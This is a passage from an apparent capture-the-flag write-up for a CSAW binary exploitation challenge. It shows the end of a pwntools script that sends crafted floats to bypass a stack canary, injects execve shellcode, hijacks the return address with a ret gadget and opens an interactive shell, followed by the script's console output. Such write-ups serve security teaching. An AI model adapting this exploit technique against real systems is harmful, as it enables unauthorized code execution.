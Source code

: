 ```
   0xffff7cb7: nop
   0xffff7cb8: mov    ebx,esp
   0xffff7cba: mov    al,0xb
   0xffff7cbc: int    0x80
'''

# Send the amount of floats we will input, and then send the first 5
target.sendline('64')
for i in range(5):

   target.sendline('-1.5846380065386629e+306')#0xff820d8400000000

# Send the value which will trigger the bug to write over heapQt
target.sendline('-23')

# Send the rest of the filler floats
for i in range(51):
   target.sendline('-1.5846380065386629e+306')#0xff820d8400000000

# This is the value which will be between the stack canary, and the double which occupies the return address
target.sendline('3.7857669957336791e-270')#0x0800000000000000

# Send the shellcode blocks
target.sendline(s1)
target.sendline(s2)
target.sendline(s3)
target.sendline(s4)

# Send the double which will reside after the return address double, which will store the address of our shellcode in the last four bytes. 
# We have to convert the int to a float, so it's stored in memory correctly
target.sendline("%.19g" % struct.unpack("<d", p64(ret)))

# Send the double which will occupy the return address with the gadget 0x804900a: ret
target.sendline('4.8653382194983783e-270')#0x804900a00000000

# Drop to an interactive shell
target.interactive()
```

we have to run the exploit several times before it works (due to the fact that we need the first byte of the canary to be in a certain range). But once it is, we get this:

```
$  python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 9002: Done
[*] Switching to interactive mode
64
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-23
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
-1.5846380065386629e+306
```